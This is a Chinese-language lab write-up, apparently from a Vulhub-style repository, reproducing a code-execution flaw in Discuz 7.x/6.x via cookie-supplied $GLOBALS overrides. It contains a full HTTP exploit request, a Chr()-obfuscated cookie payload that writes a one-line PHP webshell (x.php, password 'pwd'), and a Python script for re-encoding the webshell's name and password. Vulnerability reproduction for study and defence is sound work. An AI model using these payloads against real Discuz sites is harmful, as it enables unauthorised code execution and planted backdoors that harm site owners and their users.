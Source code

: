 # Discuz 7.x/6.x 全局变量防御绕过导致代码执行

## 漏洞描述

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，也就是说默认配置下`$_REQUEST`只包含`$_GET`和`$_POST`而不包括$_COOKIE。

我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

- https://www.secpulse.com/archives/2338.html

## 环境搭建

Vulhub执行如下命令启动Discuz 7.2：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/install/`来安装discuz，数据库地址填写`db`，数据库名为`discuz`，数据库账号密码均为`root`。

![image-20220222112715390](images/202202221127521.png)

## 漏洞复现

安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`：

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close
```

![image-20220222112923996](images/202202221129105.png)

同样方法传入以下Cookie写入一句话木马文件，文件为x.php，密码为pwd

```
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(120).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(112).Chr(119).Chr(100).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```

ASCII码和字符互相转换的小脚本，方便修改POC的文件名和密码：

```
import re
# ASCII = ord(Word)
# Word = chr(ASCII)

# ASCII -> Word
def ASCII2word(ASCIIs):
	for c in re.findall(r"(\d+)", ASCIIs):
	    print(chr(int(c)),end="")

# Word -> ASCII
def word2ASCII(words):
	ASCIIs = ""
	for word in words:
		ASCIIs += "Chr(" + str(ord(word)) + ")."
	print(ASCIIs)

print("----------ASCII TO WORD---------------------")

asciis = "Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(109).Chr(105).Chr(115).Chr(104).Chr(105).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(116).Chr(101).Chr(115).Chr(116).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59)"
ASCII2word(asciis)

print("\n\n----------WORD TO ASCII--------------------")

words = "fputs(fopen('x.php','w'),'<?php @eval($_POST[pwd])?>');"
word2ASCII(words)
```

